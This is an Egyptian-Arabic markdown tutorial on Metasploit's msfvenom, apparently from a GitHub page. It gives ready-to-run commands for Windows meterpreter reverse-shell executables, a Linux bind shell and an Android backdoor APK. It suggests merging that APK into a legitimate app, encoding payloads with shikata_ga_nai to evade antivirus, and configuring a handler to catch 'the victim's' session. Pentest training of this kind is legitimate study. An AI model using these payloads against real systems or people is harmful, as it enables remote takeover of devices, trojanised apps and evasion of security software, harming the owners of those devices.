 

# **📌 يعني إيه MSFVenom؟**

هو **أداة في Metasploit بتسمحلك بإنشاء Payloads بسهولة** لاختبار الاختراق، وتقدر تستخدمها لتوليد أنواع مختلفة من الـ Payloads حسب الهدف (ويندوز، لينكس، أندرويد... إلخ).

---

# **🔥 مميزات MSFVenom**

✅ بيجمع بين أدوات **msfpayload** و **msfencode** عشان يبقى أسرع وأقوى.  
✅ بيديك **تحكم كامل** في نوع الـ Payload اللي عايز تولده.  
✅ بيقدر **يشفر (Encode) الـ Payload** عشان يقلل احتمالية اكتشافه.  
✅ بيسمحلك تحدد **التنسيق (Format) اللي عايزه** زي exe أو apk أو elf أو raw.

---

# **🛠️ أوامر أساسية في MSFVenom**

## **🔹 1. عرض كل أنواع الـ Payloads المتاحة**

💻 **لو عايز تشوف كل الـ Payloads المدعومة:**

```bash
msfvenom -l payloads
```

⬅️ هتظهرلك قائمة طويلة بكل الـ Payloads اللي تقدر تستخدمها.

💻 **لو عايز تشوف Payloads خاصة بالويندوز بس:**

```bash
msfvenom -l payloads | grep windows
```

⬅️ هيعرضلك بس الـ Payloads اللي تنفع مع أنظمة الويندوز.

---

# **💡 توليد أشهر أنواع الـ Payloads**

## **🟢 1. توليد Reverse Shell للويندوز**

🔹 لما الضحية يشغل الملف، هيتصل بجهازك ويديلك تحكم كامل.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```

✅ **-p**: نوع الـ Payload  
✅ **LHOST**: عنوان جهاز المخترق  
✅ **LPORT**: البورت اللي هيتصل عليه الضحية  
✅ **-f exe**: حفظه كملف exe

---

## **🟢 2. توليد Bind Shell للينكس**

🔹 الضحية هيفتح بورت على جهازه وانت تتصل عليه.

```bash
msfvenom -p linux/x86/shell/bind_tcp RHOST=192.168.1.200 LPORT=5555 -f elf > bind.elf
```

✅ مناسب لو الشبكة مفيهاش فايروول قوي بيمنع الاتصالات الخارجية.

---

## **🟢 3. توليد Payload للأندرويد (APK Backdoor)**

🔹 هينتج ملف APK لما الضحية يثبته، هيديلك تحكم في جهازه.

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f apk > backdoor.apk
```

✅ تقدر تدمجه مع تطبيق شرعي باستخدام APKTool.

---

# **🔐 تشفير (Encoding) الـ Payload عشان يتخطى الحماية**

🔹 بعض برامج الحماية بتكشف الـ Payload، عشان كده بنستخدم **Encoders** زي shikata_ga_nai.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > encoded.exe
```

✅ **-e x86/shikata_ga_nai**: تشفير باستخدام shikata_ga_nai  
✅ **-i 10**: تكرار التشفير 10 مرات

---

# **💡 الخلاصة بالمصري:**

1️⃣ **MSFVenom أداة قوية بتساعدك تولد Payloads لأي نظام تشغيل.**  
2️⃣ **ممكن تعمل Reverse Shell (الضحية يتصل بيك) أو Bind Shell (انت تتصل بالضحية).**  
3️⃣ **بتقدر تختار الـ Format زي exe للويندوز، apk للأندرويد، و elf للينكس.**  
4️⃣ **لو عايز تخفي الـ Payload من برامج الحماية، استخدم التشفير (Encoding).**

---

# **🛠️ خطوات عملية لاستخدام MSFVenom مع Metasploit**

## ✅ **1. توليد Reverse Shell للويندوز:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

## ✅ **2. إعداد Metasploit لاستقبال الاتصال:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload على الضحية، هتوصلك جلسة تحكم كاملة!** 🔥